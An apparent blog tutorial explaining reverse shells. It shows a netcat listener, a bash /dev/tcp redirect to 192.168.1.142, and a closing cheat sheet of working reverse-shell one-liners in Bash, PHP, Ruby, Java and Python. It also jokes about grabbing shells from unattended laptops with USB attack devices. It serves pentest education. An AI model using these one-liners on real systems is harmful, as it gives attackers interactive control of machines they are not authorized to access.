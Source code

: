 ```yaml
---
layout: single
title: '2017-08-26, reverse shell'

---
```


# Whats a reverse shell? It’s that turtle that you jump on and it bounces off a wall and comes back at you right?
Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.
Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat. 
`nc -vlp 80`  vlp?  
-v, --verbose Set verbosity level (can be used several times);  
-l, --listen Bind and listen for incoming connections; 
-p, --source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash
`bash -i >& /dev/tcp/192.168.1.142/80 0>&1`
The command `bash -i >& `invokes bash with an "interactive" option. Then `/dev/tcp/192.168.1.142/7023` redirects that session to a tcp socket via device file. 
Finally `0>&1` Takes standard output, and connects it to standard input.
It turns out linux has built a /dev/tcp device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time. 
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)
$ echo > /dev/tcp/www.google.com/80
$ cat </dev/tcp/time.nist.gov/13
57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) 

http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.
Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
https://hakshop.com/products/bash-bunny
https://hakshop.com/products/usb-rubber-ducky-deluxe

Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things. 
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done
PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()
PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’


http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/
